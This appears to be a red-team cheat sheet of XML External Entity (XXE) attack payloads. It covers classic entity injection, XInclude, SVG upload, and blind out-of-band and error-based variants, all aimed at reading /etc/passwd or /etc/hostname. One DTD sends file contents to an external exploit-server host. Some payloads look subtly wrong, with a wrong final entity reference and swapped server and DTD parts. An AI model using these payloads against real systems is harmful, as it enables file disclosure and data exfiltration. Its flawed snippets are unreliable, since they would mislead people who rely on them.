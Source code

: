 #Red-Team  #Payload #Exploit #Vulnerability


## What is XXE?

#### An XML External Entity attack typically abuses the `<!ENTITY>` tag, which allows XML documents to include external content. If an XML parser is configured to process external entities, an attacker can inject a malicious entity to retrieve data or execute system commands.


## Payload: 

````
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
````




## XXE XInclude attacks

#### You know there is XML going on but you can't control it.. XInclude is exactly what you need.

### Paste that on query like ProductID={EXPLOIT}&ProductSrv=2

## Payload XInclude:

````
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/> </foo>
````




## XXE File Upload (svg)

#### You can upload svg files and there is no filter? huh. Try this out.

````
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
````




## XXE With .dtd File

#### Ein **.dtd**-File sagt, wie ein XML-Dokument aussehen darf, also welche Bausteine es haben kann.

## Blind without errors
## Payloads:

### Payload to server:

### `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

### Content of .dtd file:

````
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0acc00340452e9f4801a02c601dc009a.exploit-server.net/exil?%file;'>">
%stack;
%file;
````


## Blind with errors
## Payloads:

### Payload to server:

### `<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> %eval; %exfil;`

### Payload to the .dtd file:

### `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
